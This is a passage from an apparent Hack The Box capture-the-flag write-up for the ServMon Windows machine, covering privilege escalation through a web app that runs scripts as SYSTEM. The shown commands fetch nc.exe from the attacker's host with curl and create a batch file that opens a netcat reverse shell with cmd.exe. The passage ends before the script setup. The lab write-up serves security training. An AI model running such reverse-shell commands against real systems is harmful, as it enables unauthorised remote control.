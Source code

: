 ![](/assets/img/htb/machines/windows/easy/servmon/port_forwarding_success.png)

This web app contains functionality to create scripts that can be executed in the context of `NT AUTHORITY\SYSTEM`. 

### Exploitation

We will upload `nc.exe` to the target machine and then try to gain a reverse shell by executing it through the web app. 

```cmd
nadine@SERVMON C:\Users\Nadine\Desktop>curl 10.10.14.12/nc.exe -o nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  137k
nadine@SERVMON C:\Users\Nadine\Desktop>echo C:\Users\Nadine\Desktop\nc.exe 10.10.14.12 443 -e cmd.exe > C:\Temp\shell.bat

nadine@SERVMON C:\Users\Nadine\Desktop>type C:\Temp\shell.bat
C:\Users\Nadine\Desktop\nc.exe 10.10.14.12 443 -e cmd.exe
```

Go to `Settings > External Scripts > Scripts` to add a new script as follows:
